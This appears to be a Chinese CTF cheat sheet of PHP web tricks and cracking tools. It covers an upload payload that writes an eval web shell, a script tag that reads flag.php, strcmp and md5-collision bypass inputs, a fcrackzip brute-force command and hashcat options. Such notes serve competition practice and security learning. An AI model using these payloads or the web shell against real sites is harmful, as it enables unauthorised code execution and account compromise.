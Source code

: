     上传相关： 可以是值也可以是数组---在上传时写入文需要有fopen fwrite fclose等等系列函数，还有一种file_put_contents()函数，它与依次调用上面三个函数功能一样，并且还这个可以允许数组。
    No No No 提示可能是数组 data参数改为 data[]

上传任意

    <script language="PHP">
       echo((file_get_contents('flag.'.'p'.'h'.'p')));
    </script>

变量覆盖

    变量shiyan和变量content的值相同： ?shiyan=&flag= 

strcmp漏洞
    
    payload为：?a[]=123 ， php5.3 以前 传入非字符串类型的数据的时候，这个函数将发生错误，判定相等


php中的 md5 碰撞

    因为0e开头的关系，认为值是相同的。md5加密后为0e开头即可。以都均可
    s878926199a,  s1885207154a,  s1836677006a,  s155964671a

### Web 工具

    开发者工具 ， 有些值可以在 F12-存储里 直接修改
    BurpSuit 抓包 直接GET改成POST
    Firefox-Hackbar

### 一些 php code

     filename=123.php&data=<?php%20@eval($_GET["code"]) ?>

### 提示

## 相关工具
fcrackzip -- kali暴破zip
  fcrackzip -b -l 3-3 -c1 -v flag.zip # 暴破3位
Advanced Archive Password Recovery 4.53 压缩包暴破 明文攻击，加密文件

### hashcat 爆破rar密码

https://www.cnblogs.com/chk141/p/12220288.html

#### 参数

```
-a  指定要使用的破解模式，其值参考后面对参数。“-a 0”字典攻击，“-a 1” 组合攻击；“-a 3”掩码攻击。
-m  指定要破解的hash类型，如果不指定类型，则默认是MD5
-o  指定破解成功后的hash及所对应的明文密码的存放位置,可以用它把破解成功的hash写到指定的文件中
--force 忽略破解过程中的警告信息,跑单条hash可能需要加上此选项
--show  显示已经破解的hash及该hash所对应的明文
--increment  启用增量破解模式,你可以利用此模式让hashcat在指定的密码长度范围内执行破解过程
--increment-min  密码最小长度,后面直接等于一个整数即可,配置increment模式一起使用
--increment-max  密码最大长度,同上
--outfile-format 指定破解结果的输出格式id,默认是3
--username   忽略hash文件中的指定的用户名,在破解linux系统用户密码hash可能会用到
--remove     删除已被破解成功的hash
-r       使用自定义破解规则
```
